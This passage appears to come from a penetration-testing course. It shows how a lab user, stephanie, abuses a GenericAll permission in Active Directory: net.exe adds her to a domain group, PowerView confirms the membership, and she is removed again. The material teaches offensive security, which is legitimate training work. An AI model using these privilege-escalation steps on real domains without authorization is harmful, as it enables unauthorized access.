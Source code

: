 > Listing 62 - Converting all SIDs that have GenericAll permission on the Management Group

The first SID belongs to the _Domain Admins_ group and the GenericAll permission comes as no surprise since _Domain Admins_ have the highest privilege possible in the domain. What's interesting, however, is to find _stephanie_ in this list. Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration.

This finding is significant and indicates that _stephanie_ is a powerful account.

When we enumerated the _Management Group_, we discovered that _jen_ was its only member. As an experiment to show the power of misconfigured object permissions, let's try to use our permissions as _stephanie_ to add ourselves to this group with net.exe.

```
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

> Listing 63 - Using "net.exe" to add ourselves to domain group

Based on the output, we should now be a member of the group. We can verify this with **Get-NetGroup**.

```
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```

> Listing 64 - Running "Get-NetGroup" to enumerate "Management Department"

This reveals that _jen_ is no longer the sole member of the group and that we have successfully added our _stephanie_ user in there as well.

Now that we have abused the GenericAll permission, let's use it to clean up after ourselves by removing our user from the group:

```
PS C:\Tools> net group "Management Department" stephanie /del /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

> Listing 65 - Using "net.exe" to remove ourselves from domain group

Once again, we can use PowerView to verify that _jen_ is the sole member of the group:

```
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
CN=jen,CN=Users,DC=corp,DC=com
```

